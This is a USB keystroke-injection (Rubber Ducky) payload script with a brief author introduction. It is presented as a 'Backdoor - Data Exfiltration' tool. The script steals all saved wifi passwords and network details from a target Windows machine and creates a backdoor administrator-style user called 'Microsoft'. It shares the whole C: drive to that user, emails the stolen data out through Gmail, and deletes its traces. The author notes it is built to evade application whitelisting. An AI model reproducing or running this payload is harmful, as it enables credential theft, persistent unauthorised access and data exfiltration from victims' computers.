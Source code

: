 This simple script will grab all of the wifi passwords, external IP address, LAN address, and hostname of the target device and e-mail it to an address of your choice. I recommend you use a Gmail address for this. I have not had luck with Yahoo, Hotmail, etc...

It then creates a user called Microsoft, and shares C:\ out to the new user. My goal here was to use one liners to prevent this from being picked up by whitelisting applications (no .bat, .exe, etc...)
 
```
REM # Backdoor - Data Exfiltration
REM # Credit goes to Crumb93 and BrainEater from the Hak5 forums for the Wifi Password one liner
DELAY 1000
WINDOWS d
DELAY 450
WINDOWS r
DELAY 450
STRING powershell Start-Process powershell -Verb runAs
DELAY 30
ENTER
DELAY 500
ALT y
DELAY 1000
REM *****************
REM # We're going to grab all wifi passwords
REM *****************
STRING (netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize > C:\Information.txt
ENTER
DELAY 500
REM *****************
REM # Now we'll grab Network Information (Local IP, Public IP, Hostname)
REM *****************
STRING $command = {hostname; Get-NetIpaddress | Where PrefixOrigin -EQ DHCP; Invoke-RestMethod http://ipinfo.io/json | Select -exp ip}
ENTER
DELAY 60
STRING $command.InvokeReturnAsIs() | Out-File C:\Information.txt -Append
ENTER
DELAY 400
REM *****************
REM # We're going to add a user
REM *****************
STRING NET USER Microsoft "l33t" /ADD
ENTER
DELAY 100
REM *****************
REM # Now we're going to share the C:\ drive out
REM *****************
STRING New-SmbShare -Name "Microsoft" -Path "C:\" -FullAccess "Microsoft"
ENTER
DELAY 100
REM *****************
REM # Let's e-mail ourselves and clean up
REM *****************
DELAY 1000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAILHERE', 'PASSWORDHERE!')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'EMAILHERE'
ENTER
STRING $ReportEmail.To.Add('EMAILHERE')
ENTER
STRING $ReportEmail.Subject = 'Hello from the duck'
ENTER
STRING $ReportEmail.Body = (Get-Content C:\Information.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 100
REM *****************
REM # Cleanup
REM *****************
STRING del C:\Information.txt
ENTER
STRING exit
ENTER
```
https://github.com/Crumb93